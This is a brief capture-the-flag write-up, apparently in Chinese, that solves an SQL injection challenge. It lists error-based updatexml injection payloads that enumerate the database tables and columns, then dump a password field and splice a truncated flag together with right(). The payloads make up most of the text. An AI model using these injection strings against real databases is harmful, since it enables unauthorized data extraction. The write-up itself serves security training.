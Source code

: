 1'or(updatexml(1,concat(0x7e,select(group_concat(table_name)from(information_schema.tables)where(table_schema=database())),0x7e),1))#

1'or(updatexml(1,concat(0x7e,(select(table_name)from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))#



admin'or(updatexml(1,concat(0x7e,

(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#



发现得到的flag不全





admin'or(updatexml(1,concat(0x7e,(select(group_concat('-',id,password))from(H4rDsq1)),0x7e),1))#
admin'or(updatexml(1,concat(0x7e,(select(right(password,35))from(H4rDsq1)),0x7e),1))#

这里用right来截取，拼接完之后 得到flag

4-ea8d-4b52-a067-f92e19d4f346}
12fcb4-ea8d-4b52-a067-f92e19d4f
flag{4612fcb4-ea8d-4b52-a067-f92e19d4f346} 
